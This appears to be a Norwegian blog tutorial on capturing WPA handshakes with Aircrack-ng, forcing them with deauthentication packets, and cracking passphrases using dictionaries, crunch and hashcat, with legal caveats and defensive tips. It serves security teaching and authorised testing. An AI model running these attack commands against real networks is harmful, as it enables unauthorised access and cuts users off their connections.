




+++
title = "Aircrack-ng - Fange WPA Handshakes"
date = 2025-03-28
draft = false
tags = ['Aircrack-ng', 'WPA', 'Trådløse Nettverk']
categories = ['Trådløse Nettverk']
description = 'En steg-for-steg guide for å fange WPA handshakes ved hjelp av Aircrack-ng, aktivere monitor-modus og knekke passfrasen.'
summary = 'En steg-for-steg guide for å fange WPA handshakes ved hjelp av Aircrack-ng, aktivere monitor-modus og knekke passfrasen.'
+++

Før vi starter med Aircrack-ng, må vi fange en WPA 4-way handshake mellom tilgangspunktet (AP) og en ekte klient (PC, tablet, telefon, osv.). Denne handshaken inneholder den nødvendige informasjonen for å knekke passfrasen (passordet).

---

## Steg 1: Aktiver Monitor-modus og Identifiser Målet

For å begynne, aktiver monitor-modus på ditt trådløse grensesnitt (`wlan0`).


Etter å ha satt vårt `wlan0`-grensesnitt i monitor-modus, har vi nå et grensesnitt som kalles `wlan0mon`. Vi identifiserer deretter kanalen til mål-AP-et og samler dens BSSID ved å bruke:

```bash
sudo airodump-ng wlan0mon
```



## Steg 2: Fang WPA Handshake

For å fange handshaken, fokuserer vi på det spesifikke målet ved å bruke:

```bash
sudo airodump-ng -c [KANAL] --bssid [BSSID] -w [FILNAVN] wlan0mon
```

For eksempel:
```bash
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0mon
```



Dette kommandoen vil:
- Overvåke kanal 6 (`-c 6`)
- Fokusere på spesifikt BSSID (`--bssid`)
- Lagre data til filer som starter med "capture" (`-w capture`)

## Steg 3: Tvinge Handshake ved Deauthentication

Hvis ingen klienter for øyeblikket kobler til nettverket, kan vi tvinge en handshake ved å sende deauthentication-pakker til eksisterende klienter:

```bash
sudo aireplay-ng --deauth [ANTALL] -a [AP_BSSID] -c [KLIENT_MAC] wlan0mon
```

For eksempel:
```bash
sudo aireplay-ng --deauth 10 -a AA:BB:CC:DD:EE:FF -c 11:22:33:44:55:66 wlan0mon
```

.png)

Dette vil:
- Sende 10 deauth-pakker (`--deauth 10`)
- Til AP med BSSID AA:BB:CC:DD:EE:FF (`-a`)
- Rette mot klient med MAC 11:22:33:44:55:66 (`-c`)

## Steg 4: Verifiser Handshake Capture

Når en handshake er fanget, vil airodump-ng vise "WPA handshake" i øvre høyre hjørne av terminalen.



Du kan også verifisere handshaken ved å bruke:

```bash
aircrack-ng capture-01.cap
```

## Steg 5: Knebbe WPA Passfrasen

### Ordbok-angrep

Den vanligste metoden er å bruke en ordbok (wordlist):

```bash
aircrack-ng -w [WORDLIST] [CAPTURE_FILE]
```

For eksempel:
```bash
aircrack-ng -w /usr/share/wordlists/rockyou.txt capture-01.cap
```



### Brute Force-angrep

For mer omfattende angrep kan du generere egendefinerte wordlists:

```bash
# Generere numerisk wordlist
crunch 8 12 0123456789 -o numbers.txt

# Bruke med aircrack-ng
aircrack-ng -w numbers.txt capture-01.cap
```

## Steg 6: Hashcat for Raskere Knekking

For bedre ytelse, konverter .cap filen til hashcat-format:

```bash
# Konverter til hashcat-format
hcxpcapngtool -o hash.hc22000 capture-01.cap

# Bruk hashcat
hashcat -m 22000 hash.hc22000 /usr/share/wordlists/rockyou.txt
```

## Viktige Sikkerhetsnotater

### Lovlige Hensyn
- **Kun test på dine egne nettverk**
- **Få eksplisitt tillatelse før testing**
- **Følg lokale lover og forskrifter**

### Etiske Retningslinjer
- **Bruk kunnskapen ansvarlig**
- **Ikke utfør uautoriserte angrep**
- **Respekter andres personvern**

## Forsvarsstrategier

### For Nettverksadministratorer:
1. **Bruk sterke passfraser** (minst 12 tegn)
2. **Implementer WPA3 når mulig**
3. **Overvåk for deauth-angrep**
4. **Bruk enterprise-autentisering**

### For Hjemmebrukere:
1. **Bruk komplekse passord**
2. **Endre standard router-passord**
3. **Oppdater firmware regelmessig**
4. **Deaktiver WPS hvis ikke nødvendig**

## Feilsøking

### Vanlige Problemer:

**Monitor-modus fungerer ikke:**
```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```

**Ingen handshake fanget:**
- Sørg for at klienter er tilkoblet
- Prøv forskjellige deauth-mål
- Verifiser korrekt kanal og BSSID

**Knekking tar for lang tid:**
- Bruk kraftigere wordlists
- Vurder hashcat med GPU-akselerasjon
- Test mot svakere mål først

## Konklusjon

WPA handshake-fangst er en fundamental ferdighet innen trådløs sikkerhetstesting. Mens verktøyene er kraftige, må de brukes ansvarlig og etisk.

### Viktige Lærdommer:
- **Monitor-modus er essensielt for pakke-fangst**
- **Deauth-angrep kan tvinge handshakes**
- **Ordbok-kvalitet påvirker suksessrate**
- **GPU-akselerasjon forbedrer ytelsen betydelig**

*Denne guiden er kun for utdannings- og autoriserte testformål. Misbruk av disse teknikkene er ulovlig.*
